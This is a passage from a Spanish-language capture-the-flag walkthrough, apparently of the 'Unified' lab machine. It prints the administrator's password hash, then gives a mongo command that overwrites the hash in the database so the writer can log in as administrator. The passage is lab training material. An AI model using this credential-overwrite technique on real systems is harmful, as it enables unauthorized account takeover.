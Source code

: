   <img src="/assets/images/StartingPoint/unified/esc2.png" alt="under" oncontextmenu="return false;">
</div>

```python
administrator@unified.htb
$6$Ry6Vdbse$8enMR5Znxoo.WfCMd/Xk65GwuQEPx1M.QP8/qHiQV0PvUc3uHuonK4WcTQFN1CRk3GwQaquyVwCVq8iQgPTt4
```

Pero es un hash la contraseña que no podemos romper, pero podemos modificar la base de datos mongo, así creamos nuestra propia contraseña y vamos a cambiarsela al usuario administrator:
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/unified/esc3.png" alt="under" oncontextmenu="return false;">
</div>

Ahora vamos a escribir nuestra contraseña:

```bash
mongo --port 27117 ace --eval 'db.admin.update({"_id":
ObjectId("61ce278f46e0fb0012d47ee4")},{$set:{"x_shadow":"$6$zd3aCG0uN4FkSFpM$txBM8YnmCuifebw9sZ5gh56wtSwlBMFZ4O8f0MB79h0V2y3r/uaGAslpb3YkRWDtEQo8jfvn0PDUMg47EOlx8."}})'
```
<div style="text-align: center;">
  <img src="/assets/images/StartingPoint/unified/esc4.png" alt="under" oncontextmenu="return false;">
</div>
